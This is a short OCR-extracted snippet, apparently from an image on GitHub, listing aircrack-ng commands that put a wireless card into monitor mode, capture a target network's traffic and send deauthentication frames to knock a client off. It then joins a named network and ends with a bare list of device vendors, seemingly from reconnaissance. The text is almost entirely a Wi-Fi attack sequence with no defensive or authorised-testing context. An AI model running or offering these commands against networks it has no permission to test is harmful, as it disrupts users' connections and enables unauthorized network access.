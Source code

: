 sudo airmon-ng
sudo airmon-ng start wlan0
sudo airmon-ng

sudo airodump-ng wlan0mon

sudo airodump-ng --bssid <BSSID> --channel <CHANNEL> --write capture wlan0mon
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon

sudo iwconfig wlan0 essid "MV16044827"
sudo dhclient wlan0

ML141 
leaontek-ml
liteontechno (koche cam)
xiaomiCommun
neterbit